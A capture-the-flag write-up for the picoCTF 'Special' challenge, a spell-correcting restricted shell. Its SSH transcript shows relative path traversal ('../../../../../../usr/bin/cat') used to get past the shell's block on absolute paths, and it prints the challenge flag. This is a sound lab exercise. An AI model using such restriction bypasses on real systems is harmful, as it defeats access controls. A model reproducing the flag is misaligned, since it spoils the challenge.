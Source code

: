 # Special
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM) (300 Points)

## Solution
The individual shell disallows basic commands, since it capitalize the first letter. Also it doesnt allow to launch a shell or use full paths to the programs. But you can use some path traversal to reach the binaries. In that way you can find a folder 'blargh/' with the file 'flag.txt'. If you read out that file, you will find the flag.
```
[root@picoctf ~]$ ssh -p 62912 ctf-player@saturn.picoctf.net
ctf-player@saturn.picoctf.net's password:
[...]
Special$ ls -al
Is pal
sh: 1: Is: not found
Special$ ls
Is
sh: 1: Is: not found
Special$ id
Id
sh: 1: Id: not found
Special$ Id
Id
sh: 1: Id: not found
Special$ /bin/bash
Why go back to an inferior shell?
Special$ pwd
Pod
sh: 1: Pod: not found
Special$ vim
Vim
sh: 1: Vim: not found
Special$ /usr/bin/ls
Absolutely not paths like that, please!
Special$ cd
Ad
sh: 1: Ad: not found
Special$ less
Less
sh: 1: Less: not found
Special$ tail
Tail
sh: 1: Tail: not found
Special$ /
Absolutely not paths like that, please!
Special$ ../
../
sh: 1: ../: Permission denied
Special$ ../../../
../../../
sh: 1: ../../../: Permission denied
Special$ ../../../../../../usr/bin/ls
../../../../../../usr/bin/ls
blargh
Special$ ../../../../../../usr/bin/ls -al
../../../../../../usr/bin/ls pal
../../../../../../usr/bin/ls: cannot access 'pal': No such file or directory
Special$ ../../../../../../usr/bin/cat ./blargh
../../../../../../usr/bin/cat ./blargh
../../../../../../usr/bin/cat: ./blargh: Is a directory
Special$ ../../../../../../usr/bin/ls ./blargh
../../../../../../usr/bin/ls ./blargh
flag.txt
Special$ ../../../../../../usr/bin/cat ./blargh/flag.txt
../../../../../../usr/bin/cat ./blargh/flag.txt
picoCTF{5p311ch3ck_15_7h3_w0r57_4f2d8259}Special$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
```
